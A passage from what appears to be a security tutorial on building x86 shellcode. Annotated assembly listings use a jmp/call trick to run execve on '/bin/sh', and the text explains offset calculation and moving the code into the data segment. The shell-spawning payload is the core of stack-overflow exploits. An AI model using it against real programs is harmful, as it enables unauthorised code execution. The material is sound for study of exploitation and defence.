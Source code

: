 
   With this modifications, using indexed addressing, and writing down how
many bytes each instruction takes our code looks like:

```
------------------------------------------------------------------------------
        jmp    offset-to-call           # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,array-offset(%esi)  # 3 bytes
        movb   $0x0,nullbyteoffset(%esi)# 4 bytes
        movl   $0x0,null-offset(%esi)   # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   array-offset,(%esi),%ecx # 3 bytes
        leal   null-offset(%esi),%edx   # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   offset-to-popl           # 5 bytes
        /bin/sh string goes here.
------------------------------------------------------------------------------
```

Calculating the offsets from jmp to call, from call to popl, from
the string address to the array, and from the string address to the null
long word, we now have:

```
------------------------------------------------------------------------------
        jmp    0x26                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)		# 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   -0x2b                    # 5 bytes
        .string \"/bin/sh\"		# 8 bytes
------------------------------------------------------------------------------
```

Looks good. To make sure it works correctly we must compile it and run it.
But there is a problem.  Our code modifies itself, but most operating system
mark code pages read-only.  To get around this restriction we must place the
code we wish to execute in the stack or data segment, and transfer control
to it.  To do so we will place our code in a global array in the data
segment.  We need first a hex representation of the binary code. Lets
compile it first, and then use gdb to obtain it.
